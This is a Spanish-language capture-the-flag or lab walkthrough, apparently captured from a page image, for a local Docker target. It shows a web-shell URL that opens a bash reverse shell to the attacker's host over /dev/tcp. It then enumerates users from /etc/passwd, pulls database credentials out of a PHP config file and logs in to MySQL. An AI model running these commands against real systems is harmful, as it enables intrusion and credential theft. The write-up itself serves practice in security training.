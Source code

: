 ```bash
# Reverse shell o acceso inicial
http://172.17.0.2/posts/uploads/cmd.php?cmd=bash%20-c%20%27exec%20bash%20-i%20%26%3E/dev/tcp/172.17.0.1/443%20%3C%261%27
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
Enumerando los usuarios del sistema:
```bash
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
alex:x:1000:1000::/home/alex:/bin/bash
juan:x:1001:1001::/home/juan:/bin/bash
```

### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Tenemos la configuracion de la base de datos:
```bash
-rw-r--r-- 1 www-data www-data  523 May 12 20:04 db.php
```

Dentro de la configuracion tenemos credenciales validas para la base de datos:
```bash
<?php
$host = '127.0.0.1'; // <- 🔧 Usar TCP en lugar de socket
$db   = 'web_app';
$user = 'website';
$pass = 'jJ2$uR5hR8z@LkT4';
$charset = 'utf8mb4';
```

Nos conectamos por **TCP**
```bash
mysql -u website --protocol=TCP -p # ( jJ2$uR5hR8z@LkT4 )
```

Enumeramos las bases de datos:
```bash
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| web_app            |
+--------------------+
```
